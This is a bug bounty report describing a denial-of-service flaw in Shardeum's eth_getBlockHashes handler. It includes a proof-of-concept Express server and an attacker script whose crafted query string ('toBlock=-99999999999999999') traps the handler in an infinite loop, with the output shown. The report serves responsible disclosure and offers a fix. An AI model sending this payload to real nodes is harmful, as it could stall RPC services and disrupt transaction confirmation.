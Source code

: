 # 33872 - \[BC - Critical] Infinite loop in shardeum

## Infinite loop in shardeum

Submitted on Jul 31st 2024 at 21:32:23 UTC by @riproprip for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33872

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:

* RPC API crash affecting projects with greater than or equal to 25% of the market capitalization on top of the respective layer
* Network not being able to confirm new transactions (total network shutdown)

### Description

### Brief/Intro

Infinite loop in shardeum handler for eth\_getBlockHashes route.

### Vulnerability Details

The eth\_getBlockHashes handler does not correctly constrain the fromBlock / toBlock query parameters. This bug allows to put the process into an infinite for loop. That crashes the process that is answering this request.

The relevant function is in https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/index.ts#L1275-L1295.

I would have loved to suss out the impact a little more, but can't find instructions that make the repos run (on my machine). Following assumptions probably lead the way in deciding if this is just an rpc crash or can take down every node in the network simply by sending a request:

* handlers behind the externalApiMiddleware are exposed to the outside
* The attacker is allowed to send one request for every OS process running the eth\_getBlockHashes handler
* The OS processes running shardeum/src/index.ts L1275-1295 is also responsible/relevant to the network confirming new transaction.

If above assumption don't all hold up or are not enough to qualify for the "prevent network from confirming transactions" impact, please keep in mind the following about infinite loops.:

* They don't produce an error (hard to monitor for)
* The process does not die (hard to recover from)
* The process uses up as much of the CPU as the OS will allow

This in effect could take down other processes running on the server, depending on the configuration of the node, and the hardware.

### Impact Details

The process handling a malicious request gets stuck in an infinite loop.

### Fix suggestion

Make sure the distance between fromBlock and toBlock in the eth\_getBlockHashes handler something meaningful.

### Proof of concept

## code

### Minimal code to reproduce shardeum/src/index.ts (save as server.js)

```
const express = require('express');
const app = express();
const port = 3000;

// external data to GET handler
let ShardeumFlags = {maxNumberOfOldBlocks: 99};
let latestBlock = 999;
let readableBlocks= [];

// original typescript code
/* 
  shardus.registerExternalGet('eth_getBlockHashes', externalApiMiddleware, async (req, res) => {
    let fromBlock: any = req.query.fromBlock
    let toBlock: any = req.query.toBlock

    if (fromBlock == null) return res.json({ error: 'Missing fromBlock' })
    if (typeof fromBlock === 'string') fromBlock = parseInt(fromBlock)
    if (fromBlock < latestBlock - ShardeumFlags.maxNumberOfOldBlocks) {
      // return max 100 blocks
      fromBlock = latestBlock - ShardeumFlags.maxNumberOfOldBlocks + 1 // 1 is added for safety
    }
    if (toBlock == null) toBlock = latestBlock
    if (typeof toBlock === 'string') fromBlock = parseInt(toBlock)
    if (toBlock > latestBlock) toBlock = latestBlock

    const blockHashes = []
    for (let i = fromBlock; i <= toBlock; i++) { !!!!!! LOOP RUNS FOREVER WITH RIGHT INPUTFOREVER
      const block = readableBlocks[i]
      if (block) blockHashes.push(block.hash)
    }
    return res.json({ blockHashes, fromBlock, toBlock })
  })
*/

// translated GET handler as minimal expressjs
let fn = async (req, res) => {
  let fromBlock/*: any*/ = req.query.fromBlock
  let toBlock/*: any*/ = req.query.toBlock

  if (fromBlock == null) return res.json({ error: 'Missing fromBlock' })
  if (typeof fromBlock === 'string') fromBlock = parseInt(fromBlock)
  if (fromBlock < latestBlock - ShardeumFlags.maxNumberOfOldBlocks) {
    // return max 100 blocks
    fromBlock = latestBlock - ShardeumFlags.maxNumberOfOldBlocks + 1 // 1 is added for safety
  }
  if (toBlock == null) toBlock = latestBlock
  if (typeof toBlock === 'string') fromBlock = parseInt(toBlock)
  if (toBlock > latestBlock) toBlock = latestBlock

  const blockHashes = []
  for (let i = fromBlock; i <= toBlock; i++) { /// !!!!!! LOOP RUNS FOREVER WITH RIGHT INPUT
  	console.log('ITERATION', i); // !!!!! see?
    const block = readableBlocks[i]
    if (block) blockHashes.push(block.hash)
  }
  return res.json({ blockHashes, fromBlock, toBlock })
};

// express code
app.get('/', fn)
app.listen(port, () => {
  console.log(`Server running at http://localhost:${port}`);
});
```

### attack code (save as attacker.js)

```

const axios   = require("axios");
const fs      = require("fs");
const payload = "fromBlock=null&toBlock=-99999999999999999";

function attack() {
	axios.get("http://localhost:3000/?" + payload, {timeout: 1000})
     .then(
	     res => {
		     console.log('Status ', res.status);
		     console.log(res.data);
		     process.exit();
	     },
	     err => {console.log('ERR', err.message);}
     )
}

attack();
```

## run

### server

```
npm install express
node server.js
```

### attacker

```
npm install axios
node attacker.js
```

## output

### server

```
Server running at http://localhost:3000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
.... # this keeps on going forever
```

### client

```
ERR timeout of 1000ms exceeded
```
